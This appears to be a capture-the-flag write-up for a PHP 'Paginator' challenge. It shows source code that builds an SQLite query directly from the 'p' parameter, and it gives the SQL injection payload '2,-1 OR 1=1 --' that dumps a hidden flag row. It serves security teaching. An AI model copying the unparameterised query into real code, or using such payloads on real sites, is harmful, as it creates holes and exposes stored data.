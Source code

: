 ## Question
There can't much go wrong with pagination, right?

## Solution 
Here we've been given a website which looks like this.
![image](https://github.com/user-attachments/assets/119d6828-2eea-4224-a1b9-c89052b8d4fc)

Source code:
```
<?php
ini_set("error_reporting", 0);
ini_set("display_errors",0);

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
}

include "flag.php";

$db = new SQLite3('/tmp/db.db');
try {
  $db->exec("CREATE TABLE pages (id INTEGER PRIMARY KEY, title TEXT UNIQUE, content TEXT)");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Flag', '" . base64_encode($FLAG) . "')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 1', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 2', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 3', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 4', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 5', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 6', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 7', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 8', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 9', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 10', 'This is not a flag, but just a boring page.')");
} catch(Exception $e) {
  //var_dump($e);
}


if(isset($_GET['p']) && str_contains($_GET['p'], ",")) {
  [$min, $max] = explode(",",$_GET['p']);
  if(intval($min) <= 1 ) {
    die("This post is not accessible...");
  }
  try {
    $q = "SELECT * FROM pages WHERE id >= $min AND id <= $max";
    $result = $db->query($q);
    while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
      echo $row['title'] . " (ID=". $row['id'] . ") has content: \"" . $row['content'] . "\"<br>";
    }
  }catch(Exception $e) {
    echo "Try harder!";
  }
} else {
    echo "Try harder!";
}
?>

<html>
    <head>
        <title>Paginator</title>
    </head>
    <body>
        <h1>Paginator</h1>
        <a href="/?p=2,10">Show me pages 2-10</a>
        <p>To view the source code, <a href="/?source">click here.</a>
    </body>
</html>
```

This is vulnerable to SQLi, and inserting the `?p=2,-1 OR 1=1 --` we get the flag in base64 encoded which when decoded we get the flag.
![image](https://github.com/user-attachments/assets/081f6cba-9b8d-4cab-b759-e34762d9f504)

`flag: ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow!}`

